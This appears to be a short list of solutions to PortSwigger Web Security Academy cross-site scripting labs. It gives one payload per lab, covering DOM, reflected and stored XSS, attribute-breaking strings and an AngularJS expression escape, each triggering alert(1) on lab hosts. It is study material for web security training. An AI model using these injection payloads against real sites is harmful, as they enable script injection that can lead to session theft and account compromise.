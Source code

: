 Lab: DOM XSS in innerHTML sink using source
-> payload: ```<img src='123.png' onerror='alert(1)'>```

Lab: DOM XSS in jQuery anchor href attribute sink using location.search source
payload: ```https://ac8e1fa11fa32607c0a0cfa800b700a8.web-security-academy.net/feedback?returnPath=javascript:alert(1)```

Lab: Reflected XSS into attribute with angle brackets HTML-encoded
-> payload: ```" autofocus onfocusin='alert(1)' x="```

Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded
-> payload: ```https://www.youtube.com/`  x="><img src="1.png" onerror="alert(1)">``` (fill to website)

Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
-> payload: ```123'; alert(1);//```

Lab: DOM XSS in document.write sink using source location.search inside a select element
-> payload: ```https://ac9f1f821eb31b49c04d25da00ca00f3.web-security-academy.net/product?productId=1&storeId=<script>alert(1)</script>```

Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
-> payload: ```{{constructor.constructor('alert(1)')()}}```
